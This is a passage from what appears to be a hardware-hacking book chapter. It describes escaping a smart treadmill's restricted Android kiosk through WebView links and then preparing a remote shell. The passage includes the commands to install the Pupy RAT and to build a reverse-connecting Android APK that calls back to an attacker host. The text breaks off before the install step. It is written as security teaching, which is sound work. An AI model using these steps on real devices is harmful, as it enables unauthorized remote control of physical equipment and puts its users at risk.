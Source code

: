 *Mobile Device Management (MDM)* software solution. MDM is a set of technologies that can be used to remotely administer the deployment, security, auditing, and policy enforcement of mobile devices. Otherwise, they can generate their own custom platform based on the *Android Open Source Project (AOSP)*. AOSP is freely available to download, customize, and install on any supported device. Both solutions offer numerous ways to limit the platform-provided functionalities and restrict the user access only to the intended ones.  ![f15013](img/f15013.png)    Figure 15-13: A smart treadmill’s stack      The device examined here uses a customized platform based on AOSP equipped with all the necessary apps.    ### Taking Control of the Android Powered Smart Treadmill    In this section, we’ll walk through an attack on the smart treadmill that allowed us to control the speed and the incline of the device remotely.    #### Circumventing UI Restrictions    The treadmill is configured to allow the user to access only selected services and functionalities. For example, the user can start the treadmill, select a specific exercise, and watch TV or listen to a radio program. They can also authenticate to a cloud platform to track their progress. Bypassing these restrictions could allow us to install services to control the device.    Adversaries who want to circumvent UI restrictions commonly target the authentication and registration screens. The reason is that, in most cases, these require browser integration, either to perform the actual authentication functionality or to provide supplementary information. This browser integration is usually implemented using components provided by the Android framework, such as WebView objects. WebView is a feature that allows developers to display text, data, and web content as part of an application interface without requiring extra software. Although useful for developers, it supports plenty of functionality that can’t be easily protected, and as a result, it’s often targeted.    In our case, we can use the following process to circumvent the UI restrictions. First, click the **Create new account** button on the device screen. A new interface should appear requesting the user’s personal data. This interface contains a link to the Privacy Policy. The Privacy Policy seems to be a file that is presented in WebView, as shown in Figure 15-14.  ![f15014](img/f15014.png)    Figure 15-14: Registration interface with links to the Privacy Policy      Within the Privacy Policy are other links, such as the Cookies Policy file shown in Figure 15-15.  ![f15015](img/f15015.png)    Figure 15-15: WebView displaying the Privacy Policy local file      Fortunately, this policy file contains external links to resources hosted in remote servers, such as the one that appears as an icon in the top bar of the interface, as shown in Figure 15-16.  ![f15016](img/f15016.png)    Figure 15-16: A link to an external site on the Cookies page      By selecting the link, the adversary can navigate to the vendor’s site and retrieve content that they wouldn’t have been able to access before, such as the site’s menus, images, videos and vendor’s latest news.    The final step is to attempt to escape from the cloud service to visit any custom website. The most common targets are usually the external web page’s Search Web Services buttons, which are shown in Figure 15-17, because they allow users to access any other site by simply searching for it.  ![f15017](img/f15017.png)    Figure 15-17: An external site containing links to the Google search engine      In our case, the vendor’s site has integrated the Google search engine so the site’s visitors can perform local searches for the website’s content. An attacker can click the small Google icon at the top left of the screen to transfer to the Google search page. Now we can navigate to any site by typing the site’s name in the search engine.    Alternatively, attackers could exploit the Login interface feature that allows users to authenticate with Facebook (Figure 15-18) because it creates a new browser window.  ![f15018](img/f15018.png)    Figure 15-18: The authentication interface links to Facebook.      Then, when we click the Facebook logo shown in Figure 15-19, we can escape from WebView into a new browser window that allows us to access the URL bar and navigate to other sites.  ![f15019](img/f15019.png)    Figure 15-19: A pop-up window that links to an external site      #### Attempting to Get Remote Shell Access    With access to other sites, the attacker could now use their web browsing capabilities to navigate to a remotely hosted Android application executable and then attempt to directly download and install it on the device. We’ll try to install an Android app on our computer that would give us remote shell access to the treadmill: it’s called the *Pupy* agent ([`github.com/n1nj4sec/pupy`](https://github.com/n1nj4sec/pupy)*/*).    We first have to install the Pupy server to our system. Using the Git tool to download the code from the remote repository, we then navigate to its folder and use the *create-workspace.py*script to set up the environment:    ``` $ **git clone --recursive https://github.com/n1nj4sec/pupy** $ **cd pupy && ./create-workspace.py pupyws** ```    Next, we can generate a new Android APK file using the `pupygen` command:    ``` $ **pupygen -f client -O android –o sysplugin.apk connect --host 192.168.1.5:8443** ```    The `-f` parameter specifies that we want to create a client application, the `-O` parameter stipulates that it should be an APK for Android platforms, the `-o` parameter names the application, the `connect` parameter requires the application to perform a reverse connection back to the Pupy server, and the `--host` parameter provides the IPv4 and port on which this server is listening.    Because we can navigate to custom websites through the